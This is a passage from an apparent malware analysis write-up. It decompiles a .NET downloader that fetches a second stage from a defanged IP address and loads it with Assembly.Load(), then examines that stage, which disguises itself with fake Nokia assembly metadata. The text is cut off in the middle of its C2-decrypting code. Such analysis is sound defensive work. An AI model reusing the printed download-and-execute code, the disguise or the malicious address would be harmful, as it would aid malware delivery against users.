 Once decompiled, we can see there are very few code files. The one of most interest is the `GUIDLSJKLJLS.cs` file. In that code, there is a `Main()` function for the program's entry point:

```cs
public static void Main()
{
    goalvsrussia.russiawin("hxxp://62.204.41[.]176/putingod.exe");
}
```
{: file='GUIDLSJKLJLS.cs'}

A URL gets passed into the `russiawin()` function, which performs a download of the bytes in the URL. In turn, that function calls more code that performs an `Assembly.Load()` call of the downloaded bytes. This implies the downloaded code is most likely additional .NET code. We can take a look in `putingod.exe` to determine the next stage as the rest of the code files in this executable are pretty empty.

## Analyzing putingod.exe

ILSpyCMD didn't give me good readable results for this sample, so I had to jump into a FLARE VM and use DNSpy instead. Usually when one doesn't work for me, the other will. In the initial properties shown by DNSpy, we can see the entry point for the program is under `System.Program`. 

```cs
// C:\Users\User\Documents\cases\rufus\putingod.exe
// Sairs, Version=312.23.2.0, Culture=neutral, PublicKeyToken=null

// Entry point: System.Program.Main
...

[assembly: AssemblyVersion("312.23.2.0")]
[assembly: CompilationRelaxations(8)]
[assembly: RuntimeCompatibility(WrapNonExceptionThrows = true)]
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]
[assembly: ComVisible(false)]
[assembly: AssemblyTitle("Nokia USB Tool")]
[assembly: AssemblyDescription("Nokia Desktop Client")]
[assembly: AssemblyCompany("Nokia")]
[assembly: AssemblyProduct("Desktop USB Manager")]
[assembly: AssemblyCopyright("Nokia Inc. 2022")]
[assembly: AssemblyFileVersion("12.2.1")]
[assembly: TargetFramework(".NETFramework,Version=v4.0", FrameworkDisplayName = ".NET Framework 4")]
[assembly: SecurityPermission(SecurityAction.RequestMinimum, SkipVerification = true)]
```

That starting point is the `Main()` function, which doesn't do much besides call another function to start doing work.

```cs
private static void Main(string[] args)
{
    Program.ReadLine();
}

public static void ReadLine()
{
    try
    {
        AuтhАрi auтhАрi = new AuтhАрi();
        bool flag = false;
        while (!flag)
        {
            foreach (string address in StringDecrypt.Read(Arguments.IP, Arguments.Key).Split(new char[]
            {
                '|'
```
